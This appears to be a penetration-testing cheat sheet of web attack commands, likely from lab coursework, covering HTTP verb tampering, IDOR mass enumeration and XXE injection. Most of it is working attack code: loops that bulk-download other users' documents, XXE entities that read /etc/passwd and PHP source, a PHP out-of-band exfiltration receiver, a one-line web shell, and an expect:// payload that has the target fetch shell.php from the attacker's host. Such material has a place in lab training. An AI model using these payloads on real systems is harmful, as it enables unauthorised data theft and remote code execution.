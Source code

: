 # Web Attacks Command Cheat Sheet

## HTTP Verb Tampering

### Testing HTTP Methods
```bash
# Check supported HTTP methods
curl -i -X OPTIONS http://SERVER_IP:PORT/

# Test different HTTP methods
curl -X HEAD http://SERVER_IP:PORT/admin/reset.php
curl -X PUT http://SERVER_IP:PORT/admin/reset.php
curl -X DELETE http://SERVER_IP:PORT/admin/reset.php
```

## IDOR (Insecure Direct Object References)

### Basic IDOR Testing
```bash
# Extract document links with grep
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

# Mass enumeration script
for i in {1..10}; do
    for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
        wget -q $url/$link
    done
done
```

### Hash Calculation for Encoded References
```bash
# MD5 hash calculation
echo -n 1 | md5sum

# Base64 encode then MD5 hash
echo -n 1 | base64 -w 0 | md5sum

# Remove trailing characters
echo -n 1 | base64 -w 0 | md5sum | tr -d ' -'

# Loop for multiple IDs
for i in {1..10}; do
    echo -n $i | base64 -w 0 | md5sum | tr -d ' -';
done
```

### Mass Download Script for Encoded References
```bash
#!/bin/bash
for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

## XXE (XML External Entity) Injection

### Basic Local File Disclosure
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

### PHP Filter for Source Code
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

### CDATA Method with External DTD
```bash
# Create external DTD file
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd

# Start HTTP server
python3 -m http.server 8000
```

### Out-of-Band (OOB) Exfiltration Server
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

```bash
# Start PHP server for OOB
php -S 0.0.0.0:8000
```

### Remote Code Execution Setup
```bash
# Create web shell
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php

# Start HTTP server
sudo python3 -m http.server 80
```

### XXE Expect Module (RCE)
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
```

### Automated XXE with XXEinjector
```bash
# Clone tool
git clone https://github.com/enjoiz/XXEinjector.git

# Run automated OOB exfiltration
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

## General Testing Commands

### Burp Suite Integration
- Use "Change Request Method" in Burp Suite for HTTP verb tampering
- Use Burp Intruder for mass enumeration
- Use Burp Comparer for hash comparison

### File Analysis
```bash
# View downloaded contracts
ls -1 contract_*.pdf

# Check logs from XXEinjector
cat Logs/IP_ADDRESS/etc/passwd.log
```

